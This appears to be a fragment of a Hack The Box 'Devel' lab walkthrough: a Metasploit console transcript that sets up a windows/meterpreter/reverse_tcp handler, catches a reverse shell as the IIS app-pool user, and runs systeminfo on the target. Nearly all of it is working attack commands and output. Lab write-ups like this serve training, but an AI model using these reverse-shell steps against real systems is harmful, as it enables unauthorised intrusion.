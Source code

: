 
## meterpreter
```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.10.5
LHOST => 10.10.10.5
msf exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf exploit(multi/handler) > exploit

[-] Handler failed to bind to 10.10.10.5:1234:-  -
[*] Started reverse TCP handler on 0.0.0.0:1234 
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.30:1234 -> 10.10.10.5:49164) at 2019-09-02 22:05:05 +0200

meterpreter > getuid
Server username: IIS APPPOOL\Web


meterpreter > shell
Process 580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          5/9/2019, 9:27:16 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 737 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.542 MB
Virtual Memory: In Use:    506 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
```